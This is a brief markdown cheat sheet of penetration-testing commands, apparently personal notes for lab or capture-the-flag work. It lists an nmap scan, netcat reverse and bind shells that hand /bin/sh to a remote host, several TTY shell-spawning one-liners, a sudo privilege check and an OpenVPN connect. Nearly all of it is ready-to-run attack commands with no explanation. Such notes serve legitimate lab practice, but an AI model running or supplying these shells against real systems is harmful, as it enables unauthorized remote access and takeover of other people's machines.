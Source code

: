 # NMAP
~~~
nmap -T4 -p -A \<ip\>
~~~
# Python Webserver
* python3 -m http.server \<port\>

# Netcat 
## Reverse Shell
### Attacker Listener
* nc -nlvp 4444
### Target Connecting
* nc 192.168.1.2 4444 -e /bin/sh
## Bind Shell
### Attacker Connecting
*nc 192.168.1.2 4444
### Target Listener
* nc -nvlp 4444 -e /bin/sh

# TTY Shell
## Using python
* python -c 'import pty; pty.spawn("/bin/sh")'
* python -c 'import pty; pty.spawn("/bin/bash")'
## Echo
* echo 'os.system('/bin/bash')'
## sh
* /bin/sh -i
## bash
* /bin/bash -i
## Perl
* perl -e 'exec "/bin/sh";'
## From within VI
* :!bash

# Privilege Escalation Check
* sudo -l

# OpenVPN
* sudo openvpn <file>.vpn




